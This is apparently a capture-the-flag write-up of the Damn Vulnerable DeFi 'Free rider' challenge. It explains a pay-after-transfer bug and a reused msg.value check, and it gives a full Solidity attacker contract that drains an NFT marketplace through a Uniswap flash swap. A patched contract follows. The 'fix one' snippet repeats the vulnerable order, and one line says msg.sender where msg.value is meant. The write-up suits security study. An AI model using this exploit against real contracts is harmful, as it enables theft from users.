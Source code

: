 ```yaml
---
layout: post
title: Damn Vulnerable DeFi - Free rider
---
```


## Description
A new marketplace of Damn Valuable NFTs has been released! There's been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

A buyer has shared with you a secret alpha: the marketplace is vulnerable and all tokens can be taken. Yet the buyer doesn't know how to do it. So it's offering a payout of 45 ETH for whoever is willing to take the NFTs out and send them their way.

You want to build some rep with this buyer, so you've agreed with the plan.

Sadly you only have 0.5 ETH in balance. If only there was a place where you could get free ETH, at least for an instant.

## Solution
The vulnerability here is pretty glaring. The marketplace pays the owner of the NFT **after** transfer, so the
payment goes to the new owner and the seller gets nothing.

```
// transfer from seller to buyer
token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);

// pay seller
payable(token.ownerOf(tokenId)).sendValue(priceToPay);
```

Another error is the way the contract checks the amount paid:

```
require(msg.value >= priceToPay, "Amount paid is not enough");
```

Does this really ensure the full price is paid for the NFTs? No, it doesn't.
`msg.value` is reused for each purchase, so a "payment" for the previous purchase doesn't decrease the amount you have left for the next purchase. As an example, suppose there are 10 NFTs that cost
5 ETH each. I could call `buyMany` for the 10 NFTs and pass in 5 ETH for `msg.value`. The
`require(msg.value >= priceToPay, "Amount paid is not enough");` will pass on every iteration of `_buyOne`, even though I've only paid 5 ETH instead of 50.

With this knowledge, we can exploit the marketplace as follows:

1. Take out a flash loan on Uniswap
2. Sweep the NFTs in a single call to `buyMany`. For this call we only have to send enough ether to cover the cost of 1 NFT.
3. Transfer the NFTs to the buyer
4. Repay the flash loan

```
contract FreeRiderAttacker is IERC721Receiver {
    address payable private weth;
    IUniswapV2Pair private uniswapV2Pair;
    address private factoryV2;
    FreeRiderNFTMarketplace private nftMarketPlace;
    FreeRiderBuyer private freeRiderBuyer;
    DamnValuableNFT private damnValuableNft;

    function attack(
        address _factoryV2,
        address payable _weth,
        address _uniswapV2Pair,
        address payable _nftMarketPlace,
        address _freeRiderBuyer,
        address _damnValuableNft
    ) external payable
    {
        factoryV2 = _factoryV2;
        weth = _weth;
        uniswapV2Pair = IUniswapV2Pair(_uniswapV2Pair);
        nftMarketPlace = FreeRiderNFTMarketplace(_nftMarketPlace);
        freeRiderBuyer = FreeRiderBuyer(_freeRiderBuyer);
        damnValuableNft = DamnValuableNFT(_damnValuableNft);

        // Let's flash swap 15 weth. This calls our uniswapV2Call callback
        uniswapV2Pair.swap(15 ether, 0, address(this), "0x01");

        // The exploit is over, send the attacker the spoils
        payable(msg.sender).transfer(address(this).balance);
    }

    function uniswapV2Call(address, uint amount0, uint, bytes calldata) external {
        // Get ETH for WETH
        (bool success,) = weth.call(abi.encodeWithSignature("withdraw(uint256)", amount0));
        require(success, "weth withdraw failed :(");

        // Buy and transfer the NFTs
        uint256[] memory buys = new uint256[](6);
        for (uint256 i = 0; i < 6; ++i) {
            buys[i] = i;
        }
        nftMarketPlace.buyMany{value: 15 ether}(buys);

        for (uint256 i = 0; i < 6; ++i) {
            damnValuableNft.safeTransferFrom(address(this), address(freeRiderBuyer), uint256(i));
        }

        // Make the swap whole
        uint256 amountToReturn = amount0 * 1000 / 997 + 1;
        (success,) = weth.call{value: amountToReturn}(abi.encodeWithSignature("deposit()"));
        require(success, "weth deposit failed :(");
        (success,) = weth.call(abi.encodeWithSignature("transfer(address,uint256)", msg.sender, amountToReturn));
        require(success, "weth transfer failed :(");
    }

    // Implement this so we can receive NFTs via safeTransferFrom
    function onERC721Received(address, address, uint256, bytes memory) external pure override returns (bytes4) {
        return IERC721Receiver.onERC721Received.selector;
    }

    // Implement this so we can receive ETH payments
    receive() external payable {}
}
```

## Patched Contract
We need to fix two things here:
1. Pay the seller before transferring ownership
2. Decrement the funds available for payment instead of reusing msg.sender on every purchase

Fix one is easy. We just swap the two lines from the previous section

```
// transfer from seller to buyer
token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);

// pay seller
payable(token.ownerOf(tokenId)).sendValue(priceToPay);
```

For fix two let's store `msg.value` in a variable when `buyMany` is called. Call it `fundsForPurchase`.
For each purchase we'll decrease `fundsForPurchase` by the amount paid. This
ensures the buyer pays the full price for each NFT.

Here's the patched contract.

```
contract FreeRiderNFTMarketplaceV2 is ReentrancyGuard {

    using Address for address payable;

    DamnValuableNFT public token;
    uint256 public amountOfOffers;

    // tokenId -> price
    mapping(uint256 => uint256) private offers;

    event NFTOffered(address indexed offerer, uint256 tokenId, uint256 price);
    event NFTBought(address indexed buyer, uint256 tokenId, uint256 price);
    
    constructor(uint8 amountToMint) payable {
        require(amountToMint < 256, "Cannot mint that many tokens");
        token = new DamnValuableNFT();

        for(uint8 i = 0; i < amountToMint; i++) {
            token.safeMint(msg.sender);
        }        
    }

    function offerMany(uint256[] calldata tokenIds, uint256[] calldata prices) external nonReentrant {
        require(tokenIds.length > 0 && tokenIds.length == prices.length);
        for (uint256 i = 0; i < tokenIds.length; i++) {
            _offerOne(tokenIds[i], prices[i]);
        }
    }

    function _offerOne(uint256 tokenId, uint256 price) private {
        require(price > 0, "Price must be greater than zero");

        require(
            msg.sender == token.ownerOf(tokenId),
            "Account offering must be the owner"
        );

        require(
            token.getApproved(tokenId) == address(this) ||
            token.isApprovedForAll(msg.sender, address(this)),
            "Account offering must have approved transfer"
        );

        offers[tokenId] = price;

        amountOfOffers++;

        emit NFTOffered(msg.sender, tokenId, price);
    }

    function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
        uint256 fundsForPurchases = msg.value;
        for (uint256 i = 0; i < tokenIds.length; i++) {
            uint256 pricePaid = _buyOne(tokenIds[i], fundsForPurchases);
            fundsForPurchases -= pricePaid;
        }
    }

    function _buyOne(uint256 tokenId, uint256 fundsForPurchase) private returns (uint256 pricePaid) {       
        uint256 priceToPay = offers[tokenId];
        require(priceToPay > 0, "Token is not being offered");

        require(fundsForPurchase >= priceToPay, "Amount paid is not enough");

        amountOfOffers--;

        // pay seller
        payable(token.ownerOf(tokenId)).sendValue(priceToPay);

        // transfer from seller to buyer
        token.safeTransferFrom(token.ownerOf(tokenId), msg.sender, tokenId);

        emit NFTBought(msg.sender, tokenId, priceToPay);

        return priceToPay;
    }    

    receive() external payable {}
}
```